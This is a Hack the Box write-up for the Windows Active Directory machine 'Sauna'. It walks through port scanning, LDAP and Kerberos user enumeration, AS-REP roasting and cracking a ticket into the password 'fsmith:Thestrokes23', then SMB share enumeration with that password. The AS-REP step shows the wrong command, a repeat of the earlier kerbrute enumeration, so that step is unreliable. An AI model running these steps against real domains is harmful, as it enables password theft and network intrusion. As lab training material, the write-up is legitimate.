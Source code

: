 # Hack the Box - Sauna

```CSS
Machine IP: 10.10.10.175 - Windows
```

Add to DNS
```CSS
10.10.10.175    egotistical-bank.local sauna sauna.egotistical-bank.local
```

## Nmap
### TCP All Ports

```CSS
▶ nmap -Pn -sS -p- 10.10.10.175 -T4 --min-rate 1000 -oN surface.nmap

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-15 09:39 IST
Nmap scan report for 10.10.10.175
Host is up (0.18s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49695/tcp open  unknown
49720/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 124.54 seconds
```

### Open TCP Ports Service Version and Default Scripts
```CSS
▶ nmap -sC -sV -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49675,49695,49720 10.10.10.175 -oN deep.nmap

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-15 09:26 IST
Nmap scan report for 10.10.10.175
Host is up (0.18s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-15 10:56:16Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49720/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m41s
| smb2-time: 
|   date: 2023-04-15T10:57:10
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 132.84 seconds
```

![image](https://user-images.githubusercontent.com/83878909/232182021-fe6ce919-1d8e-4fad-acdb-1925137c81bd.png)

---

## HTTP
### Home
![image](https://user-images.githubusercontent.com/83878909/232183100-b0ba710b-a0d0-456f-8428-866108bab641.png)

### Users
![image](https://user-images.githubusercontent.com/83878909/232183269-6ce5ead2-098a-42c1-a77b-99e9b68cce63.png)

```CSS
Fergus Smith
Shuan Coins
Sophie Driver
Bowie Taylor
Hugo Bear
Steven Kerb
```

---

## LDAPSearch
### Base DN (Distinguished Name)
```CSS
▶ ldapsearch -H ldap://10.10.10.175 -x -s base namingcontexts
```
![image](https://user-images.githubusercontent.com/83878909/232185487-95840fae-d92d-4a03-9795-cbddc1511dba.png)

### Subtree Attributes
```CSS
▶ ldapsearch -H ldap://10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL' -s sub
```
![image](https://user-images.githubusercontent.com/83878909/232194332-9d8dc461-a687-4416-a6f6-94b4d5b523e9.png)

---

## Kerberos
### Kerberos Authentication Attack
  - Identify valid users.
  - Create a wordlist of potential usernames using the names found earlier.

## Validate Usernames
```CSS
▶ kerbrute userenum --dc 10.10.10.175 -d egotistical-bank.local users.txt
```
![image](https://user-images.githubusercontent.com/83878909/232199517-5274525c-d5f5-4925-b2c9-5fc31b23082f.png)
```CSS
administrator@egotistical-bank.local
fsmith@egotistical-bank.local
```
### AS-REP Roasting
  - Find users who have Kerberos preauthentication disabled and get their TGT.
```CSS
▶ kerbrute userenum --dc 10.10.10.175 -d egotistical-bank.local users.txt
```
![image](https://user-images.githubusercontent.com/83878909/232200855-613b961b-3a89-4a3c-b2ed-6f3fa3aa124f.png)

### Crack TGT
  - Crack the `TGT` obtained for user `fsmith` to get the password.
```CSS
▶ john --format:krb5asrep ticket.hrb5 --wordlist=/usr/share/wordlists/rockyou.txt
```
![image](https://user-images.githubusercontent.com/83878909/232202658-937f7339-41a3-4614-b60f-dc84214e3cda.png)

```CSS
fsmith:Thestrokes23
```

---

## SMB
### Enumerate Shares
  - 
```CSS
▶ crackmapexec smb 10.10.10.175 -u fsmith -p Thestrokes23 --shares
```
![image](https://user-images.githubusercontent.com/83878909/232202527-9d199655-95f5-451b-9023-eaa07f30e094.png)

---

